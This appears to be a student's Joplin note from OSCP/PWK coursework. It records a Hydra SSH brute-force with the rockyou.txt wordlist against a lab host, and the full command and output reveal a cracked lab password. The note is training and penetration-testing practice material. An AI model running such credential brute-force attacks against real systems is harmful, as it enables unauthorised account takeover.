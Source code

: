 19.3.3.1

# 19.3.3.1 
## 19.3.3.1.1. Recreate the Hydra SSH attack against your Kali VM.

Didn't do this on my own Kali. Instead, did it on a PWK lab machine 'sean' since I already know it had an SSH login using rockyou.txt

```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ hydra -l sean -P /usr/share/wordlists/rockyou.txt ssh://10.11.1.251
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 04:57:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.11.1.251:22/
[22][ssh] host: 10.11.1.251   login: sean   password: monkey
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-04 04:57:22
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ 
```

id: 93655721a29c4d51b8b046f6d389ab29
parent_id: 423b2d18468848de856cf2eb7aaee55d
created_time: 2020-10-03T22:28:12.555Z
updated_time: 2020-10-04T09:01:28.606Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-03T22:28:12.555Z
user_updated_time: 2020-10-04T09:01:28.606Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1